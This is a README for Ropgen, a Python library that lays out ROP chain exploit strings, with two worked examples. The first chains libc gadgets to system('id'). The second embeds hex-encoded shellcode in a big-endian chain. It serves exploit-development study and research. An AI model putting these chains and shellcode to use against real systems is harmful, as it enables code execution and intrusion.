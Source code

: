 # Ropgen

A python module to facilitate in the generation of ROP chain exploit strings.

After we have found out the gadgets which will be used in the ROP chain we need to lay out them. The gadgets needs be placed at specific offsets within the exploit string with filler bytes separating them.

This python module assists in the creation of such ROP strings. You can build the string by specifying the offsets and the value that will be placed at that offset. A value can be a byte, word, double word, quad word or string.

Additionally, you can summarize the generated rop string in the form of a nice ascii table.

# Installation

Ropgen is available on PyPI. 

[![PyPI version](https://badge.fury.io/py/ropgen.svg)](https://badge.fury.io/py/ropgen)

To install systemwide (requires root privileges)

```
# pip install ropgen
```

Or to do a local install to the user home directory (doesn't require root)

```
$ pip install --user ropgen
```

## Example-1

```python
#!/usr/bin/env python2
from ropgen import RopGen

libc = 0x2ab3e000
gadget1 = 0x27eb4
sleep = 0x2f2b0
system = 0x2bfd0
gadget2 = 0x267b0
gadget3 = 0x171cc

# endianess is le by default
rop = RopGen()
rop.set_dword(51, libc + gadget1, "Gadget 1")
rop.set_dword(158, libc + sleep, "sleep")
rop.set_dword(170, libc + system, "system")
rop.set_dword(194, libc + gadget2, "Gadget 2")
rop.set_dword(226, libc + gadget3, "Gadget 3")
rop.set_string(254, "id; \x00", "Payload")

print rop.build()
print rop.summarize()
```

**Output**

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�^�*AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�Ҷ*AAAAAAAAП�*AAAAAAAAAAAAAAAAAAAA�G�*AAAAAAAAAAAAAAAAAAAAAAAAAAAA�Q�*AAAAAAAAAAAAAAAAAAAAAAAAid; 
+--------+---------------------+-----------------+
| Offset | Content description | Length in bytes |
+========+=====================+=================+
| 0      | Padding Bytes       |       51        |
+--------+---------------------+-----------------+
| 51     | Gadget 1            |        4        |
+--------+---------------------+-----------------+
| 55     | Padding Bytes       |       103       |
+--------+---------------------+-----------------+
| 158    | sleep               |        4        |
+--------+---------------------+-----------------+
| 162    | Padding Bytes       |        8        |
+--------+---------------------+-----------------+
| 170    | system              |        4        |
+--------+---------------------+-----------------+
| 174    | Padding Bytes       |       20        |
+--------+---------------------+-----------------+
| 194    | Gadget 2            |        4        |
+--------+---------------------+-----------------+
| 198    | Padding Bytes       |       28        |
+--------+---------------------+-----------------+
| 226    | Gadget 3            |        4        |
+--------+---------------------+-----------------+
| 230    | Padding Bytes       |       24        |
+--------+---------------------+-----------------+
| 254    | Payload             |        5        |
+--------+---------------------+-----------------+
```

## Example-2

```python
#!/usr/bin/env python3
from ropgen import RopGen

libc = 0x40854000
gadget1 = libc + 0x000158dc
gadget2 = libc + 0x00037690
gadget3 = libc + 0x0000b830
gadget4 = libc + 0x00040e18 + 4
sleep = libc + 0x56bd0

shell = bytes.fromhex('6269093c2f2f2935f4ffa9af7368093c6'\
	'e2f2935f8ffa9affcffa0aff4ffbd2720'\
	'20a003fcffa0affcffbd27ffff0628fcf'\
	'fa6affcffbd232030a00373680934fcff'\
	'a9affcffbd27ffff0528fcffa5affcffb'\
	'd23fbff1924272820032028bd00fcffa5'\
	'affcffbd232028a003ab0f02340c010101')

rop = RopGen(endian='be', padding='B')
rop.set_dword(260, sleep, "sleep")
rop.set_dword(276, gadget2, "gadget2")
rop.set_dword(292, gadget1 , "gadget1")
rop.set_dword(296 + 0x24, gadget3, "gadget3")
rop.set_dword(296 + 0x20, gadget4, "gadget4")
rop.set_string(296 + 0x28 + 0xb8, shell, "shellcode")
rop.build()
print(rop.summarize())
```
**Output**

```
+--------+---------------------+-----------------+
| Offset | Content description | Length in bytes |
+========+=====================+=================+
| 0      | Padding Bytes       |       260       |
+--------+---------------------+-----------------+
| 260    | sleep               |        4        |
+--------+---------------------+-----------------+
| 264    | Padding Bytes       |       12        |
+--------+---------------------+-----------------+
| 276    | gadget2             |        4        |
+--------+---------------------+-----------------+
| 280    | Padding Bytes       |       12        |
+--------+---------------------+-----------------+
| 292    | gadget1             |        4        |
+--------+---------------------+-----------------+
| 296    | Padding Bytes       |       32        |
+--------+---------------------+-----------------+
| 328    | gadget4             |        4        |
+--------+---------------------+-----------------+
| 332    | gadget3             |        4        |
+--------+---------------------+-----------------+
| 336    | Padding Bytes       |       184       |
+--------+---------------------+-----------------+
| 520    | shellcode           |       116       |
+--------+---------------------+-----------------+
```

# License

Licensed under MIT.
